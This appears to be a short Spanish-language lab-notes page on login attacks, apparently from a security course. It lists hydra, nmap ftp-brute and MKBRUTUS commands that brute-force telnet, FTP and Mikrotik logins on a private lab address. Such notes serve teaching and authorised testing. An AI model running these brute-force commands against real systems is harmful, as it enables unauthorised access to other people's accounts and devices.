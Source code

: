 ```yaml
---
theme: "just-the-docs"
title: "Ataque de login"
layout: default
nav_order: 7
parent: "ARRAY DIINF 2024"
---
```

```bash
cd /home/lesand/Desktop/tools/diccionarios
echo "admin" > archivo.txt
```
# Ataque TELNET
## NMAP
```bash
ls /usr/share/nmap/scripts/
```
```bash
hydra -L usuarios.txt -P diccionario.txt telnet://192.168.85.134
```
# Ataque FTP
```bash
nmap -p 21 --script ftp-brute --script-args userdb=usuarios.txt,passdb=diccionario.txt 192.168.85.134
```
# Winbox/API Mikrotik
```bash
cd /home/lesand/Desktop/tools
git clone https://github.com/mkbrutusproject/MKBRUTUS.git
cd MKBRUTUS
python3 mkbrutus.py -t 192.168.85.134 -d /home/lesand/Desktop/tools/diccionarios/diccionario.txt
```
